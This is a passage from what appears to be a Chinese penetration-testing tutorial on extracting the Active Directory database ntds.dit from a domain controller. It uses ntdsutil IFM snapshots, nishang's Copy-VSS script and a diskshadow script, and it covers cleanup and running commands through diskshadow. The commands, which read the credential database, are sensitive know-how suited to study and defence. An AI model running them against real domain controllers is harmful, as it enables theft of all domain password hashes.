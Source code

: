 [![5UAS4e.png](https://z3.ax1x.com/2021/10/18/5UAS4e.png)](https://imgtu.com/i/5UAS4e)

[![5UAPgA.png](https://z3.ax1x.com/2021/10/18/5UAPgA.png)](https://imgtu.com/i/5UAPgA)

[![5UAijI.png](https://z3.ax1x.com/2021/10/18/5UAijI.png)](https://imgtu.com/i/5UAijI)

#### 1.4 使用 ntdsutil 的 IFM 创建卷影拷贝

可以使用创建一个 IFM  的方式获取 ntds.dit。在使用 ntdsutil 创建 IFM 时，需要进行生成快照、加载、将 ntds.dit 和计算机的 SAM 文件复制到目标文件夹中等操作。  也可以通过PowerShell 或 WMI 远程执行。

在域控制器中以管理员模式打开命令行环境，输入：

```cmd
#复制文件到 test
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
```

在C盘内创建test目录，test下Active Directory 文件夹下有ntds.dit文件，registry文件下有SECURITY, SYSTEM文件。

复制ntds.dit文件后删除test文件夹。

```cmd
rmdir /s/q test
```

[![5UVAk8.png](https://z3.ax1x.com/2021/10/18/5UVAk8.png)](https://imgtu.com/i/5UVAk8)

[也可以通过PowerShell实现](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)

```powershell
//导入脚本
import-module .\Copy-Vss.ps1
//执行命令
Copy-vss
```

#### 1.5 使用 diskshadow 导出 ntds.dit

Windows Server 2008、Windows Server 2012 和 Windows Server 2016 都默认包含 diskshadow。

diskshadow 有交互和非交互两种模式。在使用交互模式时，需要登录远程桌面的图形化管理界面。不论是交互模式还是非交互模式，都可以使用 exec 调取一个脚本文件来执行相关命令。

在渗透测试中，可以使用 diskshadow.exe 来执行命令。例如，将需要执行的命令 ``exec c:\windows\system32\calc.exe`` 写入C盘目录下的 a.txt 文件，再使用 diskshadow.exe 执行该文件中的命令。

[![5xCFvd.png](https://z3.ax1x.com/2021/10/30/5xCFvd.png)](https://imgtu.com/i/5xCFvd)

创建一个 command.txt 文件文件:

```cmd
//设置卷影拷贝
set context persistent nowriters
//添加卷
add volume c: alias someAlias
//创建快照
create
//分配虚拟磁盘盘符
expose %someAlias% k:
//将 ntds.dit 文件复制到C盘
exec "cmd.exe" /c copy k:\Windows\NTDS\ntds.dit c:\ntds.dit
//删除所有快照
delete shadows all
//列出系统中的卷影拷贝
list shadows all
//重置
reset
//退出
exit
```

